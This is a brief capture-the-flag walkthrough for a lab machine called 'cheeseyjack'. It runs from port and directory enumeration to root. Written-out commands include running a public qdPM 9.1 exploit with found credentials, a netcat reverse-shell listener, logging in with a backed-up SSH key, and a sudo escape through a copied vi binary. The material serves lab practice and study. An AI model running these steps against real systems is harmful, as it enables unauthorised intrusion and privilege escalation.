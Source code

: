 <pre>

$ vi /etc/hosts
	IP MACHINE 	http://cheeseyjack.local/


Enum:
	Open ports:
		22/tcp   open  ssh   	
80/tcp   open  http 	
	111/tcp  open  rpcbind



80/tcp enum:
	/assets (Status: 301)
/forms (Status: 301)
/project_management (Status: 301)
/server-status (Status: 403)
/it_security (Status: 301)

/it_security (Status: 301)
	Note.txt
		Possible user (Cheese,crab)

Found on index
	info@cheeseyjack.local
/home/ch33s3m4n *

Go to the /project_management (Status: 301)
And login:
	ch33s3m4n@cheeseyjack.local
		qdPM 9.1
Ok we login in!
	Lets exploit some webapp
		https://www.exploit-db.com/exploits/47954
			Download and run it!
python3 47954.py  -url http://cheeseyjack.local/project_management/ -u ch33s3m4n@cheeseyjack.local -p qdpm

And we get a backdoor command execution!
	Lets get reverse shell
		kali$ rlwrap nc -lvnp 9003
	Find a php-reverse-shell on your kali machine

Run linpeas.sh in ctf machine and you will find
	/var/backups/ssh-bak/key.bak
		Ssh key for crab

Lets login to it:
	ssh -i id_rsa crab@cheeseyjack.local
	And we got crab

Priv esc:
	$ sudo -l
		(root) NOPASSWD: /home/crab/.bin/

	Lets do some tricks ;)
		$ cp /bin/vi /home/crab/.bin/
		$ sudo /home/crab/.bin/vi
			:!sh
				Got root!

Flag root:
WOWWEEEE! You rooted my box! Congratulations. If you enjoyed this box there will be more coming.

Tag me on twitter @cheesewadd with this picture and i'll give you a RT!
</pre>
